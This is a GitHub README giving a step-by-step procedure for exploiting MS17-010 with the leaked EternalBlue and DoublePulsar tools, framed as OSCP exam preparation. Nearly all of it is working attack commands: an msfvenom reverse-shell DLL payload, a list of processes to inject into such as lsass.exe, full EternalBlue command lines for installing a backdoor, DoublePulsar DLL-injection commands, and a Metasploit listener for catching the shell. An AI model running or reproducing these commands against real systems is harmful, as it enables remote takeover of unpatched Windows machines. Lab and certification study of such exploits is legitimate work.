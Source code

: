 # Eternal-pulsar (ms17-010)

Eternalblue-Doublepulsar without Metasploit and Python <br> 
base on shadowbroker's exploit (fuzzbunch)
- you can run it on windows or linux (need wine)


### Create payload with msfveom (staged)

` msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f dll >  shell.dll`

you can also use other payloads <b>windows/shell_reverse_tcp</b> (stageless), <b>windows/meterpreter/reverse_tcp</b>

### ProcessName list to inject
`lsass.exe (x64)` <br>
`wlms.exe  (x86) `<br>
`svchost.exe ` <br>
`explorer.exe `<br>
`spoolsv.exe `<br>

### EternalBlue & Doublepulsar  (--help )

[help.txt](https://github.com/sailay1996/eternal-pulsar/blob/master/help.txt)


### Backdoor Install with EternalBlue 

` Eternalblue-2.2.0.exe --TargetIp 10.10.10.10 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 - -GroomAllocations 12 --OutConfig 1.txt` <br>

![test1](https://github.com/sailay1996/eternal-pulsar/blob/master/img/2.jpg)


### Sending shellcode to inject DLL with Doublepulsar 

` Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 10.10.10.10 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll`
<br>
![test2](https://github.com/sailay1996/eternal-pulsar/blob/master/img/1.jpg)

### multi/handler listening with msf

` msfconsole -q -r msfhandler.rc`

#### pwned !!!
![test3](https://github.com/sailay1996/eternal-pulsar/blob/master/img/3.jpg)

Thanks for watching here !!! <br>
I hope this will help you in your oscp journey .
<br><br>
#### [@404death](https://twitter.com/404death)
